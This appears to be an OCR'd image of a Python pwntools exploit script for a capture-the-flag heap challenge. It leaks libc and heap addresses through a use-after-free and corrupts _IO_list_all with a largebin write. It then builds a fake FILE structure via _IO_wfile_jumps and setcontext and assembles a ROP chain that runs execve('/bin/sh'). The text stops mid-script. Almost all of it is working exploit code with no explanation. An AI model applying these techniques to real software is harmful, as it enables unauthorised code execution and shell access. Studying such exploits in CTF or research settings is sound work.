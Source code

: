 menu = lambda s:sla(b'choice:\n',str(s))

def add(idx,size):
    menu(1)
    sla(b'index:\n',str(idx))
    sla(b'size:\n',str(size))
def free(idx):
    menu(2)
    sla(b'index:\n',str(idx))
def edit(idx,content):
    menu(3)
    sla(b'index:\n',str(idx))
    sa(b'content:\n',content)
def show(idx):
    menu(4)
    sla(b'index:\n',str(idx))


add(0,0x440)
add(1,0x430)
add(2,0x450)
add(3,0x450)
free(2)
show(2)

libc.address = u64(r(6).ljust(8,b'\x00'))-0x21ace0
inf('libc.address')
add(4,0x500)
edit(2,b'a'*0x11)
show(2)
ru(b'a'*0x10)
heap = u64(r(6).ljust(8,b'\x00'))-0x61-0xb20
inf('heap')
pay = p64(libc.address+0x21b0e0)*2+p64(heap+0xb20)+p64(libc.sym['_IO_list_all']-0x20)
edit(2,pay)
free(0)
add(5,0x500)

syscall = 0x0000000000091316+libc.address
rax = 0x0000000000045eb0+libc.address
rdi = 0x000000000002a3e5+libc.address
ret = 0x000000000002db7d+libc.address
gadget1 = 0x000000000012e8c6+libc.address
# mov rdx, rax; call qword ptr [rbx + 0x28];  similar mov rdx,fake_wide_data_vtable
rop_chain = p64(rdi)+p64(next(libc.search(b'/bin/sh\x00')))+p64(rax)+p64(0x3b)+p64(syscall) # write rop_chain in here
rop_ptr =  heap+0x4a0# addr start of rop_chain 
fake_wide_data_ptr =  heap+0x370+8# result of &fake_IO_wfile_jumps+8
fake_wide_data_vtable = fake_wide_data_ptr+0xe8-0x68

fake_io = flat({0x88:heap,0xa0:fake_wide_data_ptr,0x28:libc.sym['setcontext']+61,0x20:0,0xc0:0,0xd8:libc.sym['_IO_wfile_jumps']},filler=b'\x00')
